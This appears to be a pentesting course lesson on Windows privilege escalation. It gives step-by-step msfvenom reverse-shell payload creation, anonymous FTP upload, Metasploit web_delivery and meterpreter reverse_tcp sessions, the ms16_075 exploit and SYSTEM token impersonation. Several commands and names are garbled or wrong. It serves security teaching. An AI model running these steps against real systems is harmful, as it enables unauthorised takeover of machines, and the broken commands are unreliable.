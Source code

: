 ```yaml
---
title: "Understanding Kernel Exploits"
subtitle: "How Attackers Use Vulnerabilities to Gain System Control and Perform Privilege Escalation Attack
tags: ["pentesting", "cybersecurity"]
authors: ["blindma1den", "lorenagubaira"]

---
```


## Kernel Exploitations

A Kernel is the core component of the operating system and acts as a bridge between hardware components and software applications.

When an operating system is loaded into memory, the kernel is loaded first and remains in memory until the operating system is shut down again.

The kernel is responsible for low-level tasks such as disk management, task management, and memory management.

Initially, these exploits are facilitated once we manage to establish ourselves on our target system, so after gaining access via Metasploit (preferably), run this /post/multi/recon/local_exploit_suggestery to check if Kitrap0d exists.

### Kitrap0d Exploit

Initially we will create a reverse shell and load it on the target system `msfvenom -p windows/shell_reverse_tcp LHOST=yourIP LPORT=555 -f aspx > myfile.aspx`

- `-p` = Payload (here a simple reverse shell)

- `LHOST` = Current IP address of the system

- `LPORT` = Port of your choice

- `-f` = File type (which type of file the system will work with)

- `>` = Save the output file with a filename

Somehow upload this file to the target system. Here we use ftp as an example to upload

```bash
ftp 10.0.0.1
```

The password is `anonymous`.
Then upload the file with the following command:

```bash
put manual.aspx nc -nvlp 555
```

Go to the IP address/site and invoke the payload.

### Potato Attacks

Suppose we have a shell on the Windows machine and after checking whoami /priv we discover that we have impersonation token privileges.

![NoSQL23](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL23.png?raw=true)

This helps us to get NT/Authority through a pope attack, and then the following can be done:

There will be two instances at this point.

1. The first instance is that we must have a foot in the system and check if the system has any identity privilege (figure above).

2. This is the Metasploit shell that we are about to trace.

### In Metasploit

1. Use the Metasploit module for web delivery:

```bash
use exploit/multi/script/web_delivery
```

2. Set the target as PowerShell (PSH):

```bash
set TARGET 0
```

3. Sets the payload as `windows/meterpreter/reverse_tcp`:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

4. Set LHOST and SRVHOST as your IP address.

5. Enter run, we will get a payload, copy and paste it into the first instance where the initial support shell is present.

![NoSQL24](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL24.png?raw=true)

6. Paste the above command in the first instance.

7. After pasting, enter **session1** and type `getprivs`.

8. Check if it is x64 or x86 architecture by typing `getuid`:

```bash
run post/multi/recon/local_exploit_suggester
```

9. Check all available exploits that can be exploited:

```bash
run windows/local/ms16_075_reflection
```

10. Set the session to ``1`:

```bash
set SESSION 1
```

11. Set LHOST to the Kali IP.

12. Set LPORT to any port on which session 1 is not listening.

13. Set the payload:

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

14. Run the exploit:

```bash
exploit
```

15. Load the ``incognito` module in Meterpreter:

```bash
load incognito
```

![NoSQL25](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL25.png?raw=true)

16. Type: `list_tokens -u` and observe **NT AUTHORITY SYSTEM**.

17. Issue the **NT AUTHORITY SYSTEM** token:

```bash
impersonate_token “NT AUTHORITYSYSTEM”.
```

18. Type `shell` to get a shell with authority privileges.

In the case of Labs and boxes, there may be some data flow situation that is used to hide the information in a file. In those cases, we can use this blog: [https://blog.malwarebytes.com/101/2015/07/introduction-to -data-flows-alternatives/](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)

Simple phrases could be **dir /R** (for the recursive search of files in the directory) **plus <name of the file to be searched**.

### References:

> SecWiki/exploits-del-kernel-of-windows: exploits-del-kernel-of-windows Windows平台提权漏洞集合 (github.com)